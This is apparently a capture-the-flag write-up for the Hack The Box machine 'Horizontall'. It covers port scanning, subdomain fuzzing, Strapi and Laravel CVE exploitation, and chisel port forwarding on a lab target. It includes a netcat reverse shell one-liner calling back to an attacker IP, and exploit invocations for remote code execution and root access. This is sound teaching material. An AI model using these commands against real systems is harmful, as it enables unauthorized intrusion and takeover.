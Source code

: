 # Horizontall

The first thing I did was run a <mark style="color:green;">`Rustscan`</mark> on the target to quickly gather open ports.

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">`horizontall.htb`</mark> to our <mark style="color:green;">`/etc/hosts`</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

![](<../../../../.gitbook/assets/image (7) (1) (1).png>)

Searching on Google informs us that the latest version of <mark style="color:green;">`nginx`</mark> is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind.

Going to the site, we see a web page.

![](<../../../../.gitbook/assets/image (36).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the <mark style="color:green;">`nginx`</mark> server to have more vhosts or subdomains? Using <mark style="color:green;">`ffuf`</mark>, we will see something.

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![api-prod subdomain](<../../../../.gitbook/assets/image (30) (1) (1).png>)

Heading back over to the browser, we are presented with a basic welcome page.

![](<../../../../.gitbook/assets/image (42) (1).png>)

Time to enumerate some more. Now there are two interesting directories that we can explore.

![](<../../../../.gitbook/assets/image (35) (1).png>)

The reviews directory yields us some users: <mark style="color:green;">`wail`</mark>, <mark style="color:green;">`doe`</mark>, and <mark style="color:green;">`john`</mark>

![](<../../../../.gitbook/assets/image (33) (1).png>)

And the admin page

![](<../../../../.gitbook/assets/image (40) (1) (1).png>)

Doing a google search on <mark style="color:green;">`strapi`</mark> shows that it is an open source Node.js headless Content Management System (CMS)

Great! Now hopefully we can find a version number somewhere...

![](<../../../../.gitbook/assets/image (16) (1).png>)

It seems the current version of is <mark style="color:green;">`Strapi 3.0.0-beta.17.4`</mark>

![](<../../../../.gitbook/assets/image (37) (1).png>)

Using <mark style="color:green;">`searchsploit`</mark> gives us some good news. Remote Code Execution ([RCE](https://www.exploit-db.com/exploits/50239))!

![](<../../../../.gitbook/assets/image (58).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../../.gitbook/assets/image (63).png>)

![](<../../../../.gitbook/assets/image (24) (1) (1).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../../.gitbook/assets/image (69) (1).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../../.gitbook/assets/image (64) (1).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../../.gitbook/assets/image (46) (1).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../../.gitbook/assets/image (41) (1) (1).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../../.gitbook/assets/image (38) (1).png>)

![Victim machine](<../../../../.gitbook/assets/image (5).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../../.gitbook/assets/image (49) (1).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../../.gitbook/assets/image (67) (1).png>)

Awesome! Now we can cat the root.txt file

![](<../../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer :)

![](<../../../../.gitbook/assets/image (18) (1).png>)

![](<../../../../.gitbook/assets/image (55) (1).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../../.gitbook/assets/image (15) (1).png>)
